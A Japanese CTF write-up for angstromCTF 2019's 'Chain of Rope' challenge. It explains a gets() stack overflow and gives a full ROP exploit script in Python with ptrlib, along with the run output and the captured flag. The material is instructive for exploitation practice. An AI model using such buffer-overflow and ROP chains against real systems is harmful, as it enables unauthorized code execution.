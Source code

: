 # [pwn 80pts] Chain of Rope - angstromCTF 2019
64bitでDEP以外無効です。
```
$ checksec chain_of_rope
[*] 'chain_of_rope'
    Arch:	64 bits (little endian)
    NX:		NX enabled
    SSP:	SSP disabled (No canary found)
    RELRO:	Partial RELRO
    PIE:	PIE disabled
```

idaで見ると、getsによるオーバーフローがあり、またフラグを読み込んで表示するflag関数があります。
しかし、flag関数では次の条件を満たしていないとフラグを表示してくれません。

- userTokenが0x1337
- balanceが0x4242
- 第一引数が0xba5eba11
- 第二引数が0xbedabb1e

userTokenはauthorize関数を呼ぶことで0x1337にセットできます。
balanceは、authorizeを呼んだ後にaddBalance関数を第一引数0xdeadbeefで呼べば0x4242にセットできます。
したがって、次のようなROPを組み立てればフラグがもらえます。

```python
from ptrlib import *

elf = ELF("./chain_of_rope")
#sock = Process("./chain_of_rope")
sock = Socket("shell.actf.co", 19400)

rop_pop_rdi = 0x00401403
rop_pop_rsi_r15 = 0x00401401

sock.sendline("1")

payload = b'A' * 0x38
payload += p64(elf.symbol("authorize"))
payload += p64(rop_pop_rdi)
payload += p64(0xdeadbeef)
payload += p64(elf.symbol("addBalance"))
payload += p64(rop_pop_rsi_r15)
payload += p64(0xbedabb1e)
payload += p64(0xaaaabbbb)
payload += p64(rop_pop_rdi)
payload += p64(0xba5eba11)
payload += p64(elf.symbol("flag"))
sock.sendline(payload)

sock.interactive()
```

```
$ python solve.py 
[+] Socket: Successfully connected to shell.actf.co:19400
[ptrlib]$ 
--== ROPE CHAIN BLACK MARKET ==--[ptrlib]$ 
LIMITED TIME OFFER: Sending free flag along with any purchase.
What would you like to do?
1 - Set name
2 - Get user info
3 - Grant access
Authenticated to purchase rope chain, sending free flag along with purchase...
actf{dark_web_bargains}
```

ただ、flag関数の中のsystemを呼び出している部分に直接retしてもフラグが出ます。
こういうことができないようにInterKosenCTFに出した問題ではバッファにフラグを読み込む関数とauthフラグを立てる関数と表示する部分を完全に分離しました。（豆知識）

# 感想
ROP初心者向けの問題だと思います。
